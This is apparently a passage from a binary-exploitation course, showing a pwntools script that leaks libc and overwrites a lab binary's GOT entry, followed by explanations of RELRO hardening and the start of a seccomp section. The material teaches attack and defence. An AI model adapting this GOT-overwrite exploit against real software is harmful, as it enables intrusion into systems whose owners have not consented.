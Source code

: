 ```python
from pwn import *

p = process('./got_overwrite')
libc = ELF('/lib/i386-linux-gnu/libc.so.6')

sleep_got = p.elf.got['sleep']

p.recvuntil('libc address:')
libc_leak = int(p.recvuntil('\n')[:-1], 16)
libc_base = libc_leak - libc.symbols['printf']

print("Libc base is at: 0x%x" % libc_base)

exit = libc_base + libc.symbols['exit']

p.sendline(hex(sleep_got))

p.recvuntil('value!')
p.sendline(str(exit))

p.interactive()
```

### `RELRO`

`RELRO` (Relocation Read-Only) defends against attacks which overwrite data in relocation sections, such as the **`GOT` overwrite** we showed earlier.

It comes in two flavors:

- **Partial**:
  Protects the `.init_array`, `.fini_array`, `.dynamic` and `.got` sections (but NOT `.got.plt`).
- **Full**:
  Additionally protects `.got.plt`, rendering the `GOT` overwrite attack infeasible.

In a previous session we explained how the addresses of dynamically linked functions are resolved using lazy binding.
When `Full RELRO` is in effect, the addresses are resolved at load-time and then marked as read-only.
Due to the way address space protection works, this means that the `.got` resides in the read-only mapping, instead of the read-write mapping that contains the `.bss`.

This is not a game-over in terms of exploitation, as other writable code pointers often exist.
These can be specific to the application we want to exploit or reside in shared libraries (for example: the GOT of shared libraries that are not compiled with `RELRO`).
The return addresses on the stack are still viable targets.

### `seccomp`

`seccomp` is a mechanism though which an application may transition into a state where the system calls it performs are restricted.
The policy, which may act on a whitelist or blacklist model, is described using [`eBPF`](https://lwn.net/Articles/593476/).
